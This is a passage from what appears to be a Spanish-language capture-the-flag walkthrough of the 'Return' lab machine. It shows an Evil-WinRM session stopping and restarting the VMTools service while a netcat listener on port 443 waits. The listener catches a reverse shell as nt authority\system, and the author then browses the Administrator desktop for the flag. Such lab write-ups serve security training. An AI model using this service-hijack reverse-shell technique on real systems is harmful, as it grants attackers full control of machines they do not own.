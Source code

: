 Ahora vamos a detener el servicio 

```csharp
*Evil-WinRM* PS C:\Windows\Temp> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

y antes de iniciarlo de nuevo vamos a poner nuestra máquina a la escucha en el puerto que configuramos 

```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #nc -nlvp 443
Listening on 0.0.0.0 443
```

Una vez tenemos nuestra máquina a la escucha podemos inciar el servicio en nuestra máquina atacante, este se queda cargando 

```csharp
*Evil-WinRM* PS C:\Windows\Temp> sc.exe start VMTools
```

y en nuestra máquina atacante ya tenemos nuestra reverse shell como administrador 

```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.108 51060
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

Ya con esta revershe shell podemos ir a la ruta del administrador y leer nuestra segunda flag 

```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.108 51073
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd c:\Users\Administrator\Desktop
cd c:\Users\Administrator\Desktop

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3A0C-428E

 Directory of c:\Users\Administrator\Desktop

09/27/2021  04:22 AM    <DIR>          .
09/27/2021  04:22 AM    <DIR>          ..
```